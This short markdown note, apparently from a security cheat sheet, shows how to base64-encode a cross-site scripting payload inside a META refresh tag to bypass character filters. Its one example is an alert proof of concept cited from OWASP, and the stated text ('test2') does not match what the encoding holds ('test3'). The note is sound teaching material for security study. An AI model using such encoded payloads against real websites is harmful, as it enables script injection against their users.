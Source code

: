 # Code Encoding XSS

We can use encoded script injection directly in the url.
We need to encode a part of the injection to bypass restrictions like special chars

With the example from owasp, we can inject a JS script in the META tag and will encode \<script>alert('test2')\</script> in base64
```html
<META HTTP-EQUIV="refresh"CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg">
```

## External Resources

https://owasp.org/www-community/attacks/xss/